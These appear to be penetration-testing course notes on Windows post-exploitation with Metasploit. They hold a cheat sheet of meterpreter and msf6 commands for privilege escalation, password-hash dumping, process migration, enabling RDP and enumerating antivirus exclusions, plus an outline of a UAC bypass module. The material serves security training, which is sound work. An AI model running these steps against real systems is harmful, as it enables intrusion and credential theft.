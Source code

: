 # 36 Windows Post Exploitation

# Windows Post Exploitation Modules

-  The MSF provides us with a various post exploitation modules for both Windows and Linux
- We can utilize these post exploitation modules to enumerate information about the Windows system we currently have access to
	- Enumerate user privileges
	- Enumerate logged on users
	- VM check
	- Enumerate installed programs
	- Enumerate AVs
	- Enumerate computers connected to domain
	- Enumerate installed patches
	- Enumerate shares

### DEMO

```shell
meterpreter: getuid
meterpreter: getsystem # Attempt to elevate privilege
meterpreter: screenshot
meterpreter: hashdump
meterpreter: download
meterpreter: show_mount # Enum mount
meterpreter: ps # Show process
meterpreter: migrate <PID> or <name> # Migrate process (to x64?)
msf6: post(windows/manage/migrate) # Same to migrate in meterpreter 
msf6: post(windows/gather/win_privs) # Gather Privileges Enumeration
msf6: post(windows/gather/enum_logged_on_users) # Gather logged on user enum (registry)
msf6: post(windows/gather/checkvm) # Check if target is a VM
msf6: post(windows/gather/enum_av_excluded) # Antivirus Exclusions Enumeration
msf6: post(windows/gather/enum_computers) # On the same Active Directory
msf6: post(windows/gather/enum_patches)
msf6: post(windows/gather/enum_shares) 
msf6: post(windows/manage/enable_rdp) # Enables RDP (also view if it's already enabled)
msf6: loot # Show gathered information
```


# Windows Privilege Escalation: Bypassing UAC

- User Account Control (UAC) is a Windows security feature introduced in Windows Vista that is used to prevent unauthorized changes from being made to the operating system
- UAC is used to ensure that changes to the operating system require approval from the administrator
- We can utilize the "Windows Escalate UAC Protection Bypass (In Memory Injection)" module to bypass UAC by utilizing the trusted publisher certificate through process injection. It will spawn a second shell that has the UAC flag turned off
- Need 64-bit Meterpreter Payload
- Access with a User in Administrators group
